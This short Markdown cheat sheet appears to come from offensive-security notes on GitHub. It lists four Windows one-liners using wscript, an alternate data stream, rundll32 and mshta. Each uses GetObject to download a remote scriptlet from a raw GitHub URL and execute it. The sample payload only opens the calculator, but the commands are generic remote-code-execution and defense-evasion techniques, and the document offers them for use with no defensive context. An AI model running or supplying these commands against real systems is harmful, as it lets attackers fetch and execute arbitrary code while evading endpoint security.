 #### GetObject

wscript/cscript <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > test.js && wscript.exe test.js`<br>
<br>

Alternate data streams method <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js`

rundll32<br><br>
`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js")`
<br>
<br>
mshta 
<br><br>
`mshta.exe javascript:GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js");close();`


<br><br>ads method suggested by @yeyint_mth
